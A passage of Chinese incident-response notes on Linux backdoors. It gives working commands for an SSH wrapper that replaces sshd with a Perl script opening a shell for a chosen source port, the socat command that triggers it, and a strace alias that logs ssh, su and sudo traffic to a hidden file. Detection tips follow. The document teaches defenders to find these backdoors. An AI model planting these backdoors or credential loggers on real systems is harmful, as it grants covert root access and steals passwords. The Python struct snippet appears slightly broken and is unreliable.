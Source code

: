![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-4.png)

排查技巧：进程、端口都可以发现异常， kill -s 9 PID 结束进程即可清除后门。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-4-1.png)

**5、SSH wrapper**

首先启动的是/usr/sbin/sshd,脚本执行到getpeername这里的时候，正则匹配会失败，于是执行下一句，启动/usr/bin/sshd，这是原始sshd。原始的sshd监听端口建立了tcp连接后，会fork一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的/usr/sbin/sshd，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字，getpeername能真的获取到客户端的TCP源端口，如果是19526就执行sh给个shell

简单点就是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。

服务端：

```
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```

客户端：

```
socat STDIO TCP4:target_ip:22,sourceport=13377

#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-5.png)

排查技巧：

```
# ls -al /usr/sbin/sshd
# cat /usr/sbin/sshd
可通过重装ssh服务恢复。
```

**6、strace后门**

通过命令替换动态跟踪系统调用和数据，可以用来记录用户ssh、su、sudo的操作。

```
#vim /etc/bashrc
alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'
# source /root/.bashrc
```
